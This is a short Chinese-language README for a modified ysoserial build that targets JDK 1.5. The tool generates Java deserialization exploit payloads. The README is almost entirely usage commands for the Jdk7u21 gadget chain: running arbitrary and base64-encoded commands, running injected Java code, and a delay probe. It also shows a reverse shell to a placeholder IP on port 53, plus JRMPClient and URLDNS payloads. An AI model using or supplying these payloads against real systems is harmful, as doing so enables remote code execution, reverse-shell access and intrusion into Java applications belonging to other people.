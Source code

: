 # ysoserial_JDK1.5
分享ABC_123自己改造的ysoserial工具，java反序列化漏洞利用

java -jar ysoserialJDK1.5编译.jar Jdk7u21 calc.exe   直接执行命令，弹出计算器

java -jar ysoserialJDK1.5编译.jar Jdk7u21 base64cmd：Base64加密命令

java -jar ysoserialJDK1.5编译.jar Jdk7u21 sleep:10 延迟10秒

java -jar ysoserialJDK1.5编译.jar Jdk7u21 codefile:1.java 执行1.java文件中自定义的java代码

java -jar ysoserialJDK1.5编译.jar Jdk7u21 codebase64:xxxxxx 执行xxxx的base64加密的java代码

java -jar ysoserialJDK1.5编译.jar Jdk7u21 connect:x.x.x.x:53  反弹shell到x.x.x.x的53端口

java -jar ysoserialJDK1.5编译.jar JRMPClient 12.1.2.2:53   

java -jar ysoserialJDK1.5编译.jar URLDNS http://www.xxx.com/

![a444](https://github.com/user-attachments/assets/f25643c8-cf57-490e-9f12-18d16169da1d)
